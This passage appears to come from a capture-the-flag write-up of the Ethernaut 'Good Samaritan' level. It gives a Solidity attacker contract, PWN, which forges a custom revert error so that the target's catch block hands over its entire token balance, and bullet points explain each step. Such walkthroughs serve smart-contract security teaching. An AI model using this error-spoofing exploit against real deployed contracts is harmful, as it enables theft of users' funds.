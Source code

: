 ```sol
    function notify(uint256 amount) external;
}

contract PWN is INotifyable {
     error NotEnoughBalance();

    IGoodSamaritan goodsamaritan  = IGoodSamaritan(0xD3301D80308A500346128ECE87085b172C01FF15); //ethernaut instance address
    function pwn() external {
        goodsamaritan.requestDonation();
    }

    function notify(uint256 amount) external pure {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }
}
```

- The `pwn()` function is just for calling the `requestDonation()` to trigger the initial transfer.
- The transfer will then call our `notify()` function and since the amount will be 10, it'll revert.
- The revert will then trigger the `catch` block in `requestDonation()` and will transfer all the tokens to us.
- This time our `notify()` won't revert due to the `if` condition.